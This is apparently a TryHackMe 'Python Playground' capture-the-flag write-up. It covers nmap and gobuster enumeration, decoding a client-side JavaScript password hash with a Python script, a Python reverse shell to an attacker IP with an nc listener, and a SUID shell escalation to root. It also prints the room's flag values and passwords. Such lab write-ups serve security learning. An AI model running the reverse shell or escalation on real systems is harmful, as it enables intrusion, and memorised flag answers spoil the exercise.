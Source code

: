 
# 🐍 Python Playground - TryHackMe

> Be creative!  
> 🔗 [Python Playground Room](https://tryhackme.com/room/pythonplayground)

---

## 🧠 Topics

- ✅ Network Enumeration  
- ✅ Web Enumeration  
- ✅ Web Poking  
- ✅ Python Scripting (Decoder)  
- ✅ Misconfigured Binaries  

---

## 🗂️ Appendix Archive

> **Password:** `1 kn0w 1 5h0uldn'7!`

---

## 🎯 Task 1: Hack it!

> *Jump in and grab those flags! All in the usual places: `/home/someuser`, `/root`*

<details>
<summary>🔍 Nmap Results</summary>

```bash
sudo nmap -A -sS -sC -sV -O 10.10.192.182
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp open  http    Node.js Express framework
OS: Linux 4.15
```

🔗 [http://10.10.192.182](http://10.10.192.182)  
🔗 [http://10.10.192.182/login.html](http://10.10.192.182/login.html)  
🔗 [http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

</details>

---

<details>
<summary>📁 Gobuster Enumeration</summary>

```bash
gobuster dir -u http://10.10.251.33 -w /usr/share/dirb/wordlists/common.txt -x html
```

**Results:**

- `/admin.html` ✅  
- `/index.html`  
- `/login.html`  
- `/signup.html`  

🔗 [http://10.10.251.33/admin.html](http://10.10.251.33/admin.html)  
🔗 [View Source](view-source:http://10.10.251.33/admin.html)

</details>

---

<details>
<summary>🔐 JavaScript Login Bypass Logic</summary>

```js
const hash = int_array_to_text(
  string_to_int_array(
    int_array_to_text(string_to_int_array(password))
  )
);

if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
  window.location = "super-secret-admin-testing-panel.html";
```

🔗 [http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)
</details>

---

<details>
<summary>🧮 Python Decoder Logic</summary>

```python
def text_to_unicode(string):
    return [str(ord(c)-97) for c in string]

def unicode_to_text(string):
    out = ''
    for i in range(0, len(string), 2):
        out += chr(int(string[i])*26 + int(string[i+1]))
    return out

hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
print(unicode_to_text(text_to_unicode(unicode_to_text(text_to_unicode(hash)))))
```

✅ Password: `spaghetti1245`

</details>

---

<details>
<summary>💻 Reverse Shell</summary>

```python
import socket, os, subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.106.222",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Listener
nc -lnvp 9001
```

</details>

---

<details>
<summary>📜 Flag Dump</summary>

### 🏁 Flag 1 (root):
```bash
cat /root/flag1.txt
```
`THM{7e0b5cf043975e3c104a458a8d4f6f2f}`

---

### 🏁 Flag 2 (connor):
```bash
cat /home/connor/flag2.txt
```
`THM{69a36d6f9da10d23ca0dbfdf6e691ec5}`

---

### 🏁 Flag 3 (via SUID shell):
```bash
/var/log/sh -p
cd /root
cat flag3.txt
```
`THM{be3adc69c25ad14eb79da4eb57925ad1}`

</details>

## 🧠 Tips

- Use `<details>` and `<summary>` in `.md` to make content collapsible  
- Render this using **Markdown Preview Enhanced**, **Obsidian**, or static site generators for best effects  
- For interactivity, embed `copy.js`, `highlight.js`, or use GitHub Pages with custom JS
